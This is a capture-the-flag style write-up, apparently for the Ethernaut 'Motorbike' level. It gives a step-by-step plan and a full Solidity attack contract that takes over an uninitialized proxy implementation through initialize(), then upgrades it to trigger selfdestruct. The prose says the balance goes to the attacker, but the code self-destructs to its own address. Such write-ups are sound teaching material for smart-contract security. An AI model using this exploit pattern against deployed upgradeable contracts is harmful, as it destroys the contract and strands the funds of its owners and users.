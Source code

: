 ## Plan of the attack

1. Creation of `MotorbikeAttack` contract - Attacker creates `MotorbikeAttack` contract providing the address of the `Engine` contract.
2. Calling the `attack()` function - Attacker calls the `attack()` function in the `MotorbikeAttack` contract.
3. Initialization of the `Engine` contract - The `initialize()` function in the `Engine` contract is called via `delegatecall`, allowing the attacker to initialize the contract and take over the `upgrader` role.
4. Upgrade of the `Engine` contract - the `upgradeToAndCall()` function in the Engine contract is called with the address of the attacker's `MotorbikeAttack` contract and the `destroy()` function as data. This function upgrades the `Engine` contract to a new implementation, enabling the execution of the `destroy()` function in the attacker's contract.
5. Calling the `destroy()` function - the `destroy()` function in the `MotorbikeAttack` contract is called, resulting in the selfdestruction of the contract and transferring the entire balance to the attacker's address.

## Malicious contract (MotorbikeAttack.sol)

```solidity
// SPDX-License-Identifier: MIT

import "./Motorbike.sol";
pragma solidity <0.7.0;

contract MotorbikeAttack {
    Engine victimContract;

    constructor(address _victimContract) public {
        victimContract = Engine(address(_victimContract));
    }

    function attack() public {
        // 3. Initialization of the `Engine` contract - The `initialize()` function in the `Engine` contract is called via `delegatecall`, allowing the attacker to initialize the contract and take over the `upgrader` role.
        victimContract.initialize();

        // 4. Upgrade of the `Engine` contract - the `upgradeToAndCall()` function in the Engine contract is called with the address of the attacker's `MotorbikeAttack` contract and the `destroy()` function as data. This function upgrades the `Engine` contract to a new implementation, enabling the execution of the `destroy()` function in the attacker's contract.
        victimContract.upgradeToAndCall(
            address(this),
            abi.encodeWithSignature("destroy()")
        );
    }

    // 5. Calling the `destroy()` function - the `destroy()` function in the `MotorbikeAttack` contract is called, resulting in the selfdestruction of the contract and transferring the entire balance to the attacker's address.
    function destroy() public {
        selfdestruct(payable(address(this)));
    }

    fallback() external payable {}

    receive() external payable {}
}

```
